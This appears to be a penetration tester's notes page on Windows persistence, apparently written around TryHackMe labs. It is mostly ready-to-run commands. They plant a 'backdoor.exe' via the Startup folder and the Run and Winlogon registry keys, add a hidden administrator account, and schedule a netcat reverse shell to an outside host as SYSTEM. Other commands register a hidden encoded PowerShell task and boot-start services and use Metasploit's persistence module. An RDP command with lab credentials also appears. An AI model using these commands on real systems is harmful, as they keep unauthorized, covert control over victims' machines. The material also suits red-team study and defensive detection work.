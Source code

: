 # 🔨 Persistence Notes

## Low Privilege Persistence

### Startup Folder Persistence

The following assumes the following:

* Privilege escalation is not of concern
* You have access to at least to a low privilege user account.

Dropping shell scripts / binaries into the following folder will execute them on user login:

```
C:\Users\%USERNAME%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

![](<../../../.gitbook/assets/image (1862).png>)

### Registry Persistence

Providing the current working user has permission to create registry keys under `'HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run'` . A backdoor executable / script can be created to run on user logon.&#x20;

The example below assumes a Backdoor executable is currently stored in `"C:\Users\%username%\AppData\Roaming\"`

#### CMD:

`reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Backdoor /t REG_SZ /d "C:\Users\%username%\AppData\Roaming\backdoor.exe"`

## Privileged Persistence

RDP Temp

```bash
xfreerdp /v:10.10.229.68 /u:Administrator /p:tryhackme123! +clipboard /dynamic-resolution /drive:/home/kali,share
```

### User Creation

Persistence may exist through user accounts. Privileged accounts are able to create new users on the target system.

{% tabs %}
{% tab title="CMD" %}
```python
net user AkimboViper Password123 /add
net localgroup administrators /add AkimboViper
```

![](<../../../.gitbook/assets/image (1863).png>)
{% endtab %}

{% tab title="Powershell" %}
```bash
 New-LocalUser "AkimboViper" -Password "Password123"
 Add-LocalGroupMember -Group "Administrators" -Member "AkimboViper"
```
{% endtab %}
{% endtabs %}

### Registry Persistence

Again, the registry can be used to maintain persistence. The command below will set a binary to execute when any user logs into to the system.

`reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "Userinit.exe, C:\Users\Administrator\AppData\Roaming\backdoor.exe" /f`

### Scheduled Tasks

The command below will create a sheduled task that every minute will execute 'ReverseShell.exe'. This is set to run as the SYSTEM account.

```bash
# Reverse Shell
schtasks /create /sc minute /mo 1 /tn "Persistence" /tr C:\ReverseShell.exe /ru "SYSTEM"

# Netcat
schtasks /create /sc minute /mo 1 /tn "Persistence" /tr 'c:\Users\User\Downloads/nc.exe 10.10.10.10 443 -e cmd.exe'
```

**PowerShell with custom payload**

```powershell
function PersistentTask {

	$TaskName = "Persistence"
	$Trigger = New-ScheduledTaskTrigger `
	-Daily `
	-At 09:00
	
	$Action = New-ScheduledTaskAction `
	-Execute "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" `
	-Argument "-Sta -Nop -Window Hidden -EncodedCommand <EncodedCommand>" `
	-WorkingDirectory "C:\Windows\System32"

	Register-ScheduledTask `
	-TaskName $TaskName `
	-Trigger $Trigger `
	-Action $Action `
	-Force

}

PersistentTask
```

### Services

PowerShell can be leveraged to create a new Service that, on boot will execute a defined binary / script.

```java
New-Service -Name "<SERVICE_NAME>" -BinaryPathName "<PATH_TO_BINARY>" -Description "<SERVICE_DESCRIPTION>" -StartupType "Boot"
New-Service -Name "Backdoor" -BinaryPathName "C:\Users\Administrator\AppData\Roaming\backdoor.exe" -StartupType "Boot"
```

## Metasploit

```
use exploit/windows/local/persistence

Description:
  This module will install a payload that is executed during boot. It 
  will be executed either at user logon or system startup via the 
  registry value in "CurrentVersion\Run" (depending on privilege and 
  selected method).
```

Configured options shown below. The STARTUP value can be changed to SYSTEM from USER if correct permissions are in place to perform the action.

![](<../../../.gitbook/assets/image (1864).png>)

Successful execution:

![](<../../../.gitbook/assets/image (1865).png>)
